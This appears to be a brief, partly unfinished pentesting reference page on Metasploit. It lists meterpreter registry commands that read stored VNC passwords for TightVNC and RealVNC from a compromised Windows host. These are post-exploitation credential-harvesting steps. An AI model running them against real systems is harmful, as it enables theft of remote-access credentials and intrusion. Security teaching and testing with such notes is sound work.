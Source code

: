 # Metasploit

TODO: Fill this info

TightVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\Software\TightVNC\Server [-w <64>]
```

- RealVNC

```
meterpreter > reg [-r <target_IP>] enumkey -k HKCU\\Software\ORL\\WinVNC3\\Password [-w <64>]

meterpreter > reg [-r <target_IP>] queryval -k HKLM\SOFTWARE\RealVNC\WinVNC4 -v password [-w <64>]
```